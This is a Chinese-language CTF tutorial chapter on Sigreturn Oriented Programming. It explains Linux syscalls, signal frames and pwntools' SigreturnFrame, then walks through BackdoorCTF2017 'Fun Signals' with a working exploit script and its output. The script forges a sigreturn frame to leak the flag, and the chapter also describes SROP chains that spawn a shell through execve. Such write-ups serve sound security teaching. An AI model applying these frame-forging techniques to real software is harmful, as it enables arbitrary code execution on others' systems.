


# 6.1.4 pwn BackdoorCTF2017 Fun-Signals

- [SROP 原理](#srop-原理)
  - [Linux 系统调用](#linux-系统调用)
  - [signal 机制](#signal-机制)
  - [SROP](#srop)
- [pwnlib.rop.srop](#pwnlibropsrop)
- [BackdoorCTF2017 Fun Signals](#backdoorctf2017-fun-signals)
- [参考资料](#参考资料)


## SROP 原理
#### Linux 系统调用
在开始这一切之前，我想先讲一下 Linux 的系统调用。64 位和 32 位的系统调用表分别在
`/usr/include/asm/unistd_64.h` 和 `/usr/include/asm/unistd_32.h` 中，另外还需要查看 `/usr/include/bits/syscall.h`。

一开始 Linux 是通过 `int 0x80` 中断的方式进入系统调用，它会先进行调用者特权级别的检查，然后进行压栈、跳转等操作，这无疑会浪费许多资源。从 Linux 2.6 开始，就出现了新的系统调用指令 `sysenter`/`sysexit`，前者用于从 Ring3 进入 Ring0，后者用于从 Ring0 返回 Ring3，它没有特权级别检查，也没有压栈的操作，所以执行速度更快。

#### signal 机制


如图所示，当有中断或异常产生时，内核会向某个进程发送一个 signal，该进程被挂起并进入内核（1），然后内核为该进程保存相应的上下文，然后跳转到之前注册好的 signal handler 中处理相应的 signal（2），当 signal handler 返回后（3），内核为该进程恢复之前保存的上下文，最终恢复进程的执行（4）。

- 一个 signal frame 被添加到栈，这个 frame 中包含了当前寄存器的值和一些 signal 信息。
- 一个新的返回地址被添加到栈顶，这个返回地址指向 `sigreturn` 系统调用。
- signal handler 被调用，signal handler 的行为取决于收到什么 signal。
- signal handler 执行完之后，如果程序没有终止，则返回地址用于执行 `sigreturn` 系统调用。
- `sigreturn` 利用 signal frame 恢复所有寄存器以回到之前的状态。
- 最后，程序执行继续。

不同的架构会有不同的 signal frame，下面是 32 位结构，`sigcontext` 结构体会被 push 到栈中：
```C
struct sigcontext
{
  unsigned short gs, __gsh;
  unsigned short fs, __fsh;
  unsigned short es, __esh;
  unsigned short ds, __dsh;
  unsigned long edi;
  unsigned long esi;
  unsigned long ebp;
  unsigned long esp;
  unsigned long ebx;
  unsigned long edx;
  unsigned long ecx;
  unsigned long eax;
  unsigned long trapno;
  unsigned long err;
  unsigned long eip;
  unsigned short cs, __csh;
  unsigned long eflags;
  unsigned long esp_at_signal;
  unsigned short ss, __ssh;
  struct _fpstate * fpstate;
  unsigned long oldmask;
  unsigned long cr2;
};
```
下面是 64 位，push 到栈中的其实是 `ucontext_t` 结构体：
```C
// defined in /usr/include/sys/ucontext.h
/* Userlevel context.  */
typedef struct ucontext_t
  {
    unsigned long int uc_flags;
    struct ucontext_t *uc_link;
    stack_t uc_stack;           // the stack used by this context
    mcontext_t uc_mcontext;     // the saved context
    sigset_t uc_sigmask;
    struct _libc_fpstate __fpregs_mem;
  } ucontext_t;

// defined in /usr/include/bits/types/stack_t.h
/* Structure describing a signal stack.  */
typedef struct
  {
    void *ss_sp;
    size_t ss_size;
    int ss_flags;
  } stack_t;

// difined in /usr/include/bits/sigcontext.h
struct sigcontext
{
  __uint64_t r8;
  __uint64_t r9;
  __uint64_t r10;
  __uint64_t r11;
  __uint64_t r12;
  __uint64_t r13;
  __uint64_t r14;
  __uint64_t r15;
  __uint64_t rdi;
  __uint64_t rsi;
  __uint64_t rbp;
  __uint64_t rbx;
  __uint64_t rdx;
  __uint64_t rax;
  __uint64_t rcx;
  __uint64_t rsp;
  __uint64_t rip;
  __uint64_t eflags;
  unsigned short cs;
  unsigned short gs;
  unsigned short fs;
  unsigned short __pad0;
  __uint64_t err;
  __uint64_t trapno;
  __uint64_t oldmask;
  __uint64_t cr2;
  __extension__ union
    {
      struct _fpstate * fpstate;
      __uint64_t __fpstate_word;
    };
  __uint64_t __reserved1 [8];
};
```
就像下面这样：


#### SROP
SROP，即 Sigreturn Oriented Programming，正是利用了 Sigreturn 机制的弱点，来进行攻击。

首先系统在执行 `sigreturn` 系统调用的时候，不会对 signal 做检查，它不知道当前的这个 frame 是不是之前保存的那个 frame。由于 `sigreturn` 会从用户栈上恢复恢复所有寄存器的值，而用户栈是保存在用户进程的地址空间中的，是用户进程可读写的。如果攻击者可以控制了栈，也就控制了所有寄存器的值，而这一切只需要一个 gadget：`syscall; ret;`。

另外，这个 gadget 在一些系统上没有被内存随机化处理，所以可以在相同的位置上找到，参照下图：



通过设置 `eax/rax` 寄存器，可以利用 `syscall` 指令执行任意的系统调用，然后我们可以将 `sigreturn` 和 其他的系统调用串起来，形成一个链，从而达到任意代码执行的目的。下面是一个伪造 frame 的例子：


`rax=59` 是 `execve` 的系统调用号，参数 `rdi` 设置为字符串“/bin/sh”的地址，`rip` 指向系统调用 `syscall`，最后，将 `rt_sigreturn` 设置为 `sigreturn` 系统调用的地址。当 `sigreturn` 返回后，就会从这个伪造的 frame 中恢复寄存器，从而拿到 shell。

下面是一个更复杂的例子：



1. 首先利用一个栈溢出漏洞，将返回地址覆盖为一个指向 `sigreturn` gadget 的指针。如果只有 `syscall`，则将 RAX 设置为 0xf，也是一样的。在栈上覆盖上 fake frame。其中：
  - `RSP`：一个可写的内存地址
  - `RIP`：`syscall; ret;` gadget 的地址
  - `RAX`：`read` 的系统调用号
  - `RDI`：文件描述符，即从哪儿读入
  - `RSI`：可写内存的地址，即写入到哪儿
  - `RDX`：读入的字节数，这里是 306
2. `sigreturn` gadget 执行完之后，因为设置了 `RIP`，会再次执行 `syscall; ret;` gadget。payload 的第二部分就是通过这里读入到文件描述符的。这一部分包含了 3 个 `syscall; ret;`，fake frame 和其他的代码或数据。
3. 接收完数据或，`read` 函数返回，返回值即读入的字节数被放到 `RAX` 中。我们的可写内存被这些数据所覆盖，并且 `RSP` 指向了它的开头。然后 `syscall; ret;` 被执行，由于 `RAX` 的值为 306，即 `syncfs` 的系统调用号，该调用总是返回 0，而 0 又是 `read` 的调用号。
4. 再次执行 `syscall; ret;`，即 `read` 系统调用。这一次，读入的内容不重要，重要的是数量，让它等于 15，即 `sigreturn` 的调用号。
5. 执行第三个 `syscall; ret;`，即 `sigreturn` 系统调用。从第二个 fake frame 中恢复寄存器，这里是 `execve("/bin/sh", ...)`。另外你还可以调用 `mprotect` 将某段数据变为可执行的。
6. 执行 `execve`，拿到 shell。


## pwnlib.rop.srop
在 pwntools 中已经集成了 SROP 的利用工具，即 [pwnlib.rop.srop](http://docs.pwntools.com/en/stable/rop/srop.html)，直接使用类 `SigreturnFrame`，我们来看一下它的构造：
```python
>>> from pwn import *
>>> context.arch
'i386'
>>> SigreturnFrame(kernel='i386')
{'es': 0, 'esp_at_signal': 0, 'fs': 0, 'gs': 0, 'edi': 0, 'eax': 0, 'ebp': 0, 'cs': 115, 'edx': 0, 'ebx': 0, 'ds': 0, 'trapno': 0, 'ecx': 0, 'eip': 0, 'err': 0, 'esp': 0, 'ss': 123, 'eflags': 0, 'fpstate': 0, 'esi': 0}
>>> SigreturnFrame(kernel='amd64')
{'es': 0, 'esp_at_signal': 0, 'fs': 0, 'gs': 0, 'edi': 0, 'eax': 0, 'ebp': 0, 'cs': 35, 'edx': 0, 'ebx': 0, 'ds': 0, 'trapno': 0, 'ecx': 0, 'eip': 0, 'err': 0, 'esp': 0, 'ss': 43, 'eflags': 0, 'fpstate': 0, 'esi': 0}
>>>
>>> context.arch = 'amd64'
>>> SigreturnFrame(kernel='amd64')
{'r14': 0, 'r15': 0, 'r12': 0, 'rsi': 0, 'r10': 0, 'r11': 0, '&fpstate': 0, 'rip': 0, 'csgsfs': 51, 'uc_stack.ss_flags': 0, 'oldmask': 0, 'sigmask': 0, 'rsp': 0, 'rax': 0, 'r13': 0, 'cr2': 0, 'r9': 0, 'rcx': 0, 'trapno': 0, 'err': 0, 'rbx': 0, 'uc_stack.ss_sp': 0, 'r8': 0, 'rdx': 0, 'rbp': 0, 'uc_flags': 0, '__reserved': 0, '&uc': 0, 'eflags': 0, 'rdi': 0, 'uc_stack.ss_size': 0}
```
总共有三种，结构和初始化的值会 有所不同：
- i386 on i386：32 位系统上运行 32 位程序
- i386 on amd64：64 位系统上运行 32 位程序
- amd64 on amd64：64 为系统上运行 64 位程序


## BackdoorCTF2017 Fun Signals
```
$ file funsignals_player_bin 
funsignals_player_bin: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
```
这是一个 64 位静态链接的 srop，可以说是什么都没开。。。
```
$ checksec -f funsignals_player_bin 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FORTIFY  Fortified Fortifiable  FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   No       0               0       funsignals_player_bin
```
```
gdb-peda$ disassemble _start
Dump of assembler code for function _start:
   0x0000000010000000 <+0>:     xor    eax,eax
   0x0000000010000002 <+2>:     xor    edi,edi
   0x0000000010000004 <+4>:     xor    edx,edx
   0x0000000010000006 <+6>:     mov    dh,0x4
   0x0000000010000008 <+8>:     mov    rsi,rsp
   0x000000001000000b <+11>:    syscall 
   0x000000001000000d <+13>:    xor    edi,edi
   0x000000001000000f <+15>:    push   0xf
   0x0000000010000011 <+17>:    pop    rax
   0x0000000010000012 <+18>:    syscall 
   0x0000000010000014 <+20>:    int3   
End of assembler dump.
gdb-peda$ disassemble syscall
Dump of assembler code for function syscall:
   0x0000000010000015 <+0>:     syscall 
   0x0000000010000017 <+2>:     xor    rdi,rdi
   0x000000001000001a <+5>:     mov    rax,0x3c
   0x0000000010000021 <+12>:    syscall 
End of assembler dump.
gdb-peda$ x/s flag
0x10000023 <flag>:      "fake_flag_here_as_original_is_at_server"
```
而且 flag 就在二进制文件里，只不过是在服务器上的那个里面，过程是完全一样的。

首先可以看到 `_start` 函数里有两个 syscall。第一个是 `read(0, $rip, 0x400)`（调用号`0x0`），它从标准输入读取 `0x400` 个字节到 `rip` 指向的地址处，也就是栈上。第二个是 `sigreturn()`（调用号`0xf`），它将从栈上读取 sigreturn frame。所以我们就可以伪造一个 frame。

那么怎样读取 flag 呢，需要一个 `write(1, &flag, 50)`，调用号为 `0x1`，而函数 `syscall` 正好为我们提供了 `syscall` 指令，构造 payload 如下：
```python
from pwn import *

elf = ELF('./funsignals_player_bin')
io = process('./funsignals_player_bin')
# io = remote('hack.bckdr.in', 9034)

context.clear()
context.arch = "amd64"

# Creating a custom frame
frame = SigreturnFrame()
frame.rax = constants.SYS_write
frame.rdi = constants.STDOUT_FILENO
frame.rsi = elf.symbols['flag']
frame.rdx = 50
frame.rip = elf.symbols['syscall']

io.send(str(frame))
io.interactive()
```
```
$ python2 exp_funsignals.py 
[*] '/home/firmy/Desktop/funsignals_player_bin'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000000)
    RWX:      Has RWX segments
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
fake_flag_here_as_original_is_at_server\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```
如果连接的是远程服务器，`fake_flag_here_as_original_is_at_server` 会被替换成真正的 flag。

其他文件放在了 [github](../src/writeup/6.1.4_pwn_backdoorctf2017_fun_signals) 相应文件夹中。

这一节我们详细介绍了 SROP 的原理，并展示了一个简单的例子，在后面的章节中，会展示其更复杂的运用，包扩结合 vDSO 的用法。


## 参考资料
- [Framing Signals—A Return to Portable Shellcode](http://www.ieee-security.org/TC/SP2014/papers/FramingSignals-AReturntoPortableShellcode.pdf)
- [slides: Framing Signals a return to portable shellcode](https://tc.gtisc.gatech.edu/bss/2014/r/srop-slides.pdf)
- [Sigreturn Oriented Programming](https://www.slideshare.net/AngelBoy1/sigreturn-ori)
- [Sigreturn Oriented Programming is a real Threat](https://subs.emis.de/LNI/Proceedings/Proceedings259/2077.pdf)
- [Sigreturn Oriented Programming (SROP) Attack攻击原理](http://www.freebuf.com/articles/network/87447.html)
